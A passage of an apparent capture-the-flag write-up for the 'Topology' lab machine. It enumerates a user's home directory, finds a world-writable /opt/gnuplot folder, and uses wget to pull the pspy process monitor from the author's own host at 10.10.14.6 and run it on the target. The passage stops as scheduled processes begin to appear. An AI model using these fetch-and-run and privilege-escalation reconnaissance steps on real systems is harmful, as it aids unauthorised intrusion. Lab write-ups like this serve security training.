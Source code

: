 #### File System

vdaisley’s home directory is very empty:

    
    
    vdaisley@topology:~$ ls -a
    .  ..  .bash_history  .bash_logout  .bashrc  .cache  .config  .profile  user.txt
    

There are no other directories in `/home`.

`/opt` has an interesting folder, but vdaisley can’t access it:

    
    
    vdaisley@topology:/opt$ ls 
    gnuplot
    vdaisley@topology:/opt$ ls gnuplot/
    ls: cannot open directory 'gnuplot/': Permission denied
    

However, vdaisley can write in this directory:

    
    
    vdaisley@topology:/opt$ ls -ld gnuplot/
    drwx-wx-wx 2 root root 4096 Sep  7 13:49 gnuplot/
    

#### Processes

`ps auxww` doesn’t show anything that jumps out as super interesting to me.
I’ll grab a copy of [pspy](https://github.com/DominicBreuker/pspy) from
GitHub, host it on my VM in a web-accessible directory, and upload it to
Topology with `wget`:

    
    
    vdaisley@topology:/dev/shm$ wget 10.10.14.6/pspy64
    --2023-09-07 13:45:22--  http://10.10.14.6/pspy64
    Connecting to 10.10.14.6:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 3104768 (3.0M) [application/octet-stream]
    Saving to: ‘pspy64’
    
    pspy64                                               100%[==================================>]   2.96M  3.67MB/s    in 0.8s    
    
    2023-09-07 13:45:23 (3.67 MB/s) - ‘pspy64’ saved [3104768/3104768]
    

I’ll set it as executable and run it:

    
    
    vdaisley@topology:/dev/shm$ chmod +x pspy64 
    vdaisley@topology:/dev/shm$ ./pspy64
    ...[snip]...
    

On the minute, there’s a set of processes that show up:

    
    